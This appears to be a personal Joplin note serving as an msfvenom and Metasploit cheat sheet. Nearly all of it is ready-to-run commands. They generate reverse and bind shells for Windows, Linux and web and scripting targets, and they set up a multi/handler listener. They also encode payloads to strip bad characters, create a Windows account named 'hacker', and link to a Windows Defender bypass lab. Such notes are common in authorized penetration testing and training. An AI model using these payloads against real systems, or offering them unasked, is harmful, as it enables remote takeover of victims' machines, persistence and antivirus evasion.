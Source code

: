 Msfvenom

## Creating a payload

- msfvenom -p \[payload\] LHOST=\[listeninghost\] LPORT=\[listeningport\]

To view list of payloads:

> msfvenom -l payloads

To view the payload options:

> msfvenom -p windows/x64/meterpreter\_reverse\_tcp --list-options

To view formats to output

> msfvenom --list formats
> 
> msfvenom --list encoders

## Creating a payload with encoding

- msfvenom -p \[payload\] -e \[encoder\] -f \[formattype\] -i \[iteration\] &lt;var=value&gt; > outputfile

## Creating a payload using a template

- msfvenom -p \[payload\] &lt;var=value&gt; -x \[template\] -f \[formattype\] > outputfile

## Listening for MSfvenom Payloads:

```
msf5>use exploit/multi/handler  
msf5>set payload windows/meterpreter/reverse_tcp  
msf5>set lhost <IP>  
msf5>set lport <PORT>  
msf5> set ExitOnSession false  
msf5>exploit -j  
```

## Windows Payloads

- msfvenom -p windows/meterpreter/reverse\_tcp LHOST=IP LPORT=PORT -f exe -o shell.exe -a x86\_64
- msfvenom -p windows/meterpreter\_reverse\_http LHOST=IP LPORT=PORT HttpUserAgent="Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/73.0.3683.103 Safari/537.36" -f exe -o shell.exe
- msfvenom -p windows/meterpreter/bind_tcp RHOST= IP LPORT=PORT -f exe > shell.exe
- msfvenom -p windows/shell/reverse_tcp LHOST=IP LPORT=PORT -f exe > shell.exe
- msfvenom -p windows/shell\_reverse\_tcp LHOST=IP LPORT=PORT -f exe > shell.exe
- msfvenom -p windows/shell\_reverse\_tcp LHOST=&lt;KALI IP&gt; LPORT=443 EXITFUNC=thread -f c –e x86/shikata\_ga\_nai -b "\\x00\\x0a\\x0d\\x25\\x26\\x2b\\3d"

## Linux Payloads

- msfvenom -p linux/x86/meterpreter/reverse_tcp LHOST=IP LPORT=PORT -f elf > shell.elf
- msfvenom -p linux/x86/meterpreter/bind_tcp RHOST=IP LPORT=PORT -f elf > shell.elf
- msfvenom -p linux/x64/shell\_bind\_tcp RHOST=IP LPORT=PORT -f elf > shell.elf
- msfvenom -p linux/x64/shell\_reverse\_tcp LHOST=IP LPORT=PORT -f elf > shell.elf

Add a user in windows with msfvenom:

- msfvenom -p windows/adduser USER=hacker PASS=password -f exe > useradd.exe

## Web Payloads

PHP

- msfvenom -p php/meterpreter\_reverse\_tcp LHOST= <your ip="" address="">LPORT= <your port="" to="" connect="" on="">-f raw > shell.php
    cat shell.php | pbcopy && echo '&lt;?php ' | tr -d '\\n' &gt; shell.php && pbpaste >> shell.php</your></your>

ASP

- msfvenom -p windows/meterpreter/reverse_tcp LHOST=!KALIIP LPORT=!PORT -f asp > shell.asp
- msfvenom -p windows/x64/shell\_reverse\_tcp LHOST=192.168.119.168 LPORT=4445 -f aspx > shell.aspx (For 64-bit)
- msfvenom -p windows/shell\_reverse\_tcp LHOST=192.168.119.206 LPORT=5001 -f asp > shell.asp (For 32-bit)

JSP

- msfvenom -p java/jsp\_shell\_reverse_tcp LHOST= <your ip="" address="">LPORT= <your port="" to="" connect="" on="">-f raw > shell.jsp</your></your>

WAR

- msfvenom -p java/jsp\_shell\_reverse_tcp LHOST= <your ip="" address="">LPORT= <your port="" to="" connect="" on="">-f war > shell.war</your></your>

## Scripting Payloads

Python

- msfvenom -p cmd/unix/reverse_python LHOST= <your ip="" address="">LPORT= <your port="" to="" connect="" on="">-f raw > shell.py</your></your>

Bash

- msfvenom -p cmd/unix/reverse_bash LHOST= <your ip="" address="">LPORT= <your port="" to="" connect="" on="">-f raw > shell.sh</your></your>

Perl

- msfvenom -p cmd/unix/reverse_perl LHOST= <your ip="" address="">LPORT= <your port="" to="" connect="" on="">-f raw > shell.pl</your></your>

Creating an Msfvenom Payload with an encoder while removing bad charecters:

- msfvenom -p windows/shell\_reverse\_tcp EXITFUNC=process LHOST=IP LPORT=PORT -f c -e x86/shikata\_ga\_nai -b "\\x0A\\x0D"

## Resources:

- https://hacker.house/lab/windows-defender-bypassing-for-meterpreter/

id: c5501ccb1e8d457f9a5080d28007af2e
parent_id: 8e7bd5349cf3494986eccd0619b576c9
created_time: 2019-11-27T02:15:20.390Z
updated_time: 2022-05-23T05:43:42.433Z
is_conflict: 0
latitude: 0.00000000
longitude: 0.00000000
altitude: 0.0000
author: 
source_url: 
is_todo: 0
todo_due: 0
todo_completed: 0
source: joplin-desktop
source_application: net.cozic.joplin-desktop
application_data: 
order: 1611575146763.25
user_created_time: 2019-11-27T02:15:20.390Z
user_updated_time: 2022-05-23T05:43:42.433Z
encryption_cipher_text: 
encryption_applied: 0
markup_language: 1
is_shared: 0
share_id: 
conflict_original_id: 
master_key_id: 
type_: 1
